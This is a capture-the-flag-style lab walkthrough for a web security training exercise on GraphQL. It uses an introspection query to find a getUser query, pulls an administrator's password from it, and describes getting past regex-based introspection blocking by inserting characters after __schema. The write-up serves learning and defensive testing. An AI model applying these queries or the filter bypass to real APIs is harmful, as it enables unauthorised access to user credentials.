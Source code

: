### PRACTITIONER Lab: Accidental exposure of private GraphQL fields
In the lab we see login mutation, let's send to repeater:
```bash
    mutation login($input: LoginInput!) {
        login(input: $input) {
            token
            success
        }
    }
    {"input":{"username":"wiener","password":"peter"}}
```
In the repeater, right click > GraphQL > Set introspection query > Send:
In the response we see a lot of lines, we copy them and go to the Graphql visualiser:
```bash
http://nathanrandal.com/graphql-visualizer
```

Also in the response where we get the results of introspection, let's right click > GraphQL > Save GraphQL queries to Site map
Then go to site map and find the GetUser query > Send to repeater
And we send the following req with the id: 1
```bash
query($id: Int!) {
  getUser(id: $id) {
    id
    username
    password
  }
}
{"id":1}
```

We get resp:
```bash
{
  "data": {
    "getUser": {
      "id": 1,
      "username": "administrator",
      "password": "mslf1lw63svgw6hqni8o"
    }
  }
}
```

### Bypassing GraphQL introspection defenses 
If you cannot get introspection queries to run for the API you are testing, try inserting a special character after the __schema keyword.

When developers disable introspection, they could use a regex to exclude the __schema keyword in queries. You should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex.
